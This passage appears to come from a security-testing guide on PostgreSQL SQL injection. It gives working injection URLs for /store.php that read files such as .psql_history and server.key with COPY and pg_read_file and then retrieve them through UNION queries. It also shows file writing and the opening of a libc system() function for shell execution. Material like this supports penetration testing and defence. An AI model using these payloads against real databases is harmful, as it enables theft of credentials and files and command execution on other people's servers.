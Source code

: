 **COPY:**

This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the *postgres* user.

**Example:**

` `\
`/store.php?id=1; CREATE TABLE file_store(id serial, data text)--`\
`/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--`

Data should be retrieved by performing a *UNION Query SQL Injection*:

-   retrieves the number of rows previously added in *file\_store* with *COPY* statement
-   retrieves a row at a time with UNION SQL Injection

**Example:**

``\
`/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--`\
`/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--`\
`/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--`\
`...`\
`...`\
`/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--`

**pg\_read\_file():**

This function was introduced in *PostgreSQL 8.1* and allows one to read arbitrary files located inside DBMS data directory.

**Examples:**

-   SELECT pg\_read\_file('server.key',0,1000);

#### Writing to a file

By reverting the COPY statement, we can write to the local file system with the *postgres* user rights

``\
`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl.

##### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked with *libc*:

-   CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT

Since *system* returns an *int* how we can fetch results from *system* stdout?

Here's a little trick:

-   create a *stdout* table
